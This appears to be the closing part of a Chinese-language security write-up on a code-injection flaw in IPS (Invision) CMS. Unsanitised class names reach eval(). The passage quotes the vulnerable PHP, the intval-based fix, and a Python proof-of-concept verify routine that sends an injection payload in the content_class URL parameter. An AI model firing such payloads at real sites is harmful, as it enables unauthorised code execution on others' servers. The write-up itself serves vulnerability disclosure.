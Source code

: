 ```php
```

除了第一个判断，其他所有判断我们都可以进入造成命令执行漏洞(所以第一个判断的代码我省略了), 比如第二判断

```php
if ( mb_substr( $class, 0, 23 ) === 'IPS\cms\Records\Comment' and is_numeric( mb_substr( $class, 23, 1 ) ) )
	{
		$databaseId = mb_substr( $class, 23 );
	
		$data = <<<EOF
		namespace IPS\cms\Records;
		class Comment{$databaseId} extends Comment
		{ 
			protected static \$multitons = array();
			public static \$customDatabaseId = $databaseId;
			public static \$itemClass = 'IPS\cms\Records{$databaseId}';
			public static \$title     = 'content_record_comments_title_{$databaseId}';
			public static \$reputationType = 'comment_id_{$databaseId}';
		}
EOF;
		eval( $data );
	}
```

如果`$class = "IPS\cms\Records\Comment1xxxxxxxx"` 则可以进入判断

![ips_pic2](http://qn.lazysheep.cc/img/ips_pic2.png)

在比如最后一个判断再输出下执行的值:

![ips_pic3](http://qn.lazysheep.cc/img/ips_pic3.png)

## 总结

php版本限制的原因是闭合代码的字符, 比如`{ } ;`这些都属于非法字符, 上面的第二个测试代码有Fuzzing出允许的字符, 如果使用允许的字符能构造出语法正确的命令则可以增加该漏洞的杀伤力, 不过新版本已经使用`intval`函数对于输入进行过滤了

```
//example
if ( mb_substr( $class, 0, 47 ) === 'IPS\cms\extensions\core\EditorLocations\Records' and is_numeric( mb_substr( $class, 47, 1 ) ) )
	{
		$databaseId = intval(mb_substr( $class, 47 ));
		eval( "namespace IPS\\cms\\extensions\\core\\EditorLocations; class Records{$databaseId} extends \\IPS\\cms\\extensions\\core\\EditorLocations\\Records { public static \$customDatabaseId = $databaseId; }" );
	}
```

带上PoC:
```python

    def _verify(self):
        result = {}
        random_string = random.choice(string.ascii_lowercase) + random.choice(string.ascii_uppercase)
        random_string = hashlib.sha1(random_string).hexdigest()[20:] + "H"
        random_num1 = random.randint(24,46330)
        random_num2 = random.randint(200,46040)
        payload = '/index.php?app=core&module=system&controller=content&do=find&content_class=cms\Fields1{}echo %s*%s, "%s";exit;/*' %(random_num1, random_num2, random_string)
        res = req.get(self.url + payload)        
        random_string = str(random_num1*random_num2) + random_string
        if res.status_code == 200 and random_string in res.content:
            result = {'VerifyInfo': {}}
```